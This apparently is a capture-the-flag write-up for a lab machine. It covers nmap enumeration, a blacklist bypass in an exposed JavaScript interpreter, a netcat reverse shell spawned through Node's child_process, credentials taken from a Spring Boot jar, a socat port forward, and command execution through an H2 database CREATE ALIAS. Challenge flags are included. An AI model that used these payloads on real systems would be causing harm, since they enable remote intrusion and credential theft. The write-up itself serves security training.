# Nmap

After scanning the machine with nmap, there are 3 ports open: `22`, `5000` and `8080`.

```bash
nmap --top-ports 1000 10.0.10.99 -sV
```



```
PORT     STATE SERVICE
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.0 (protocol 2.0)
5000/tcp open  tcpwrapped
8080/tcp open  http-proxy
```

The service on port `5000` died from the portscan. The machine had to be restarted.

# 5000
There is a text based telnet like service on port `5000`. 



After experimenting with the inputs, it turns out it is a javascript interpreter, but certain keywords (`+`, `eval`, `btoa`, etc) are filtered.



With `Function` and `decodeURIComponent`, the blacklist can be bypassed and can run arbitrary script.

```
Function(decodeURIComponent("<urlencoded>"))() 
```

Running the code below (swapping the blacklisted parts with the method above) can open a reverse shell.

```js
var cp = null
cp = require('child_process')
var s = null
s = cp.spawn
s('nc',['10.0.1.2', 4444, '-e', '/bin/bash']) 
```



The flag is in the user's home directory.



# Flag 1
flag{off_5_58c90a12b6000de2b030b694e54f3ead}

# 8080
On the other port, there is a website with login form.



As we are already inside the machine, the processes can be checked. Most likely the `java` process is running on the port `8080`, with the jar file `/opt/cookbook.war`. Also the database password is visible on the command line.



The file is readable by anyone. 



The ~~war~~ jar file can be analyzed locally. The jar files are using zip as container. The following can be gathered from the file.

 - Springboot app, running on port `8080`.
 - The [WEB-INF\classes\data.sql](workdir/data.sql) has an initial database with working credentials.
   ```sql
   insert into user (id, dtype, username, password) values
       (1, 'Cook', 'AzureDiamond', 'hunter2'),
       (2, 'Cook', 'jane', '1q2w3e'); 
   ```
 - [WEB-INF\classes\cookbook\configuration\SecurityConfiguration.class](workdir/SecurityConfiguration.class) contains a `/h2-console/` route.
   ```java
   @Configuration
   @EnableWebSecurity
   public class SecurityConfiguration extends WebSecurityConfigurerAdapter {
      @Autowired
      private DataSource dataSource;
      @Autowired
      private CookbookService cookbookService;
    
      protected void configure(AuthenticationManagerBuilder auth) throws Exception {
         ((JdbcUserDetailsManagerConfigurer)auth.jdbcAuthentication().dataSource(this.dataSource).   passwordEncoder(NoOpPasswordEncoder.getInstance())).usersByUsernameQuery("select username, password,    true from user where username=?");
      }
    
      protected void configure(HttpSecurity http) throws Exception {
         ((HttpSecurity)((FormLoginConfigurer)((FormLoginConfigurer)((HttpSecurity)((HttpSecurity)   ((HttpSecurity)((AuthorizedUrl)((AuthorizedUrl)((AuthorizedUrl)http.authorizeRequests().antMatchers   (new String[]{"/css/**"})).permitAll().antMatchers(new String[]{"/h2-console/**"})).permitAll().   anyRequest()).authenticated().and()).csrf().ignoringAntMatchers(new String[]{"/h2-console/**"} ).and   ()).headers().frameOptions().sameOrigin().and()).formLogin().loginPage("/login").permitAll()).   successHandler(new 2(this))).and()).logout().logoutSuccessHandler(new 1(this)).permitAll();
      }
   }
   ```
 - [WEB-INF\classes\application.properties](workdir/application.properties) has the database details.
   ```ini
   spring.datasource.url=jdbc:h2:mem:testdb
   spring.datasource.driverClassName=org.h2.Driver
   spring.datasource.username=admin2
   spring.datasource.password=
    
   spring.jpa.show-sql=false
   spring.h2.console.enabled=true
   spring.jpa.database-platform=org.hibernate.dialect.H2Dialect
   spring.jpa.open-in-view=false
    
   spring.mvc.view.prefix=/WEB-INF/views/
   spring.mvc.view.suffix=.jsp 
   ```

With the database config and password from command line, the H2 console can be used to connect to the in-memory database.

Unfortunatelly, the H2 database is not available remotely.


Fortunatelly, we have code execution already. Creating a reverse proxy allows connecting from "localhost".

```
socat TCP-LISTEN:8081,fork TCP:127.0.0.1:8080
```

Logging in from here is trivial with `application.properties` and the command line.



It is possible to run code through the database by creating java a function.

```sql
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;
```



And calling it.

```sql
CALL EXECVE('/root/flag');
```



The flag is not a txt, but a binary, running it outputs the flag. It is checking a few things (for example password hash for root), so the easiest is running it on the machine itself.

# Flag
flag{off_6_58c90a12b6000de2b030b694e54f3ead}